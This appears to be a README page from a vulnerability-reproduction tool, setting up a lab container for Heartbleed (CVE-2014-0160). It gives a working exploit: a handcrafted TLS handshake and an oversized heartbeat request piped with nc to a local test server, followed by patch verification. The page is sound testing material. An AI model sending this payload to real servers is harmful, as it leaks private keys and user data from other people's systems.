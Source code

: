 # CVE-2014-0160 (Heartbleed)

### Description
The (1) TLS and (2) DTLS implementations in OpenSSL 1.0.1 before 1.0.1g do not properly handle Heartbeat Extension packets, which allows remote attackers to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, as demonstrated by reading private keys, related to d1_both.c and t1_lib.c, aka the Heartbleed bug.


### Command to run
```shell
python -m decret --port 4433 --number 2014-0160 --release bullseye --directory heartbleed --selenium
```

### Simple testing method
In the container :
```shell
openssl req -x509 -newkey rsa:2048 -out cert.pem -keyout key.pem -keyform PEM -outform PEM -nodes
openssl s_server -tls1 -cert cert.pem -key key.pem
```
Then, on the host : 
```shell
( printf "\x16\x03\x01\x00\x38\x01\x00\x00\x34\x03\x01"
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x06\x00\x05\x00\x35\x00\x39\x01\x00"
printf "\x00\x05\x00\x0f\x00\x01\x01" ) > chello.bin

printf "\x18\x03\x01\x00\x03\x01\xff\xff" > hb.bin

(cat chello.bin; sleep 3; cat hb.bin) | nc 127.0.0.1 4433 | hexdump -C
```

Since we redirected the 4433 port, we can easily connect to the
vulnerable server.  It is also possible to enter the network namespace
from the host if you do not want to redirect a port.  From the host,
you can do this as `root` and have access to the network stack from
the container while using the filesystem from the host:
```
# ps auxw | grep openssl
root     123456  [...] openssl s_server -tls1 -cert cert.pem -key key.pem
# nsenter -n /proc/123456/ns/net # OR nsenter --net -t 123456
```

We observe that a lot of data thus it is vulnerable.

If `openssl` is then updated in the container :
```shell
apt-get install openssl
```
And the exploit is tested again, only a few bytes are sent back. The vulnerability is fixed.
